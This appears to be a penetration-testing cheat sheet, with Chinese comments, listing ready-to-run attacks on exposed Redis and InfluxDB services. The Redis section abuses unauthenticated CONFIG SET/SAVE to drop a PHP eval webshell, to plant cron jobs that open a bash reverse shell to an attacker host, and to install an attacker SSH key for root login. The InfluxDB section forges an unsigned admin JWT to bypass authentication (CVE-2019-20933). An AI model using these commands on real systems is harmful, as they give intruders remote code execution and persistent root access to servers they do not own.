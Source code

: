 ## 6379 Redis

```bash
HOST=; PORT=6379;

# Judgement
1) telnet $HOST $PORT
2) info


# 文件写入
redis-cli -h $HOST -p $PORT
# 写入 WebShell
CONFIG SET DIR /var/www/html
CONFIG SET DBFILENAME exec.php
SET crackit "\n\n\n\n<?php @eval($_REQUEST['exec']);?>\n\n\n\n"
# SAVE 执行时会将所有数据快照以 RDB 文件的形式保存到硬盘
SAVE
# 写入计划任务
CONFIG SET DIR /var/spool/cron
CONFIG SET DBFILENAME root
SET crackit "\n\n\n\n* * * * * bash -i >& /dev/tcp/HOST/PORT 0>&1\n\n\n\n"
# or
CONFIG SET DIR /etc/cron.d
CONFIG SET DBFILENAME reverse_shell
SET crackit "\n\n\n\n* * * * * root bash -i >& /dev/tcp/HOST/PORT 0>&1\n\n\n\n"
# SAVE 执行时会将所有数据快照以 RDB 文件的形式保存到硬盘
SAVE
# 写入 SSH 公钥
# ssh-keygen -t rsa
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /tmp/id_rsa.pub
cat /tmp/id_rsa.pub | redis-cli -h $HOST -p $PORT -x set crackit
rm /tmp/id_rsa.pub
redis-cli -h $HOST -p $PORT
CONFIG SET DIR /root/.ssh/
CONFIG SET DBFILENAME "authorized_keys"
SAVE
ssh -i ~/.ssh/id_rsa root@HOST


# UI Tools
# https://goanother.com/cn/
Another Redis Desktop Manager
```

## 8086 InfluxDB

```bash
HOST=VULNHOST; PORT=8086;
URL=http://$HOST:$PORT

# Judgement
curl $URL/debug/vars

# 未授权访问 (CVE-2019-20933)
# Get authorization
# https://jwt.io/
# Algorithm: HS256
{
  "username": "admin",
  "exp": 2986346267
}
# VERIFY SIGNATURE: null
```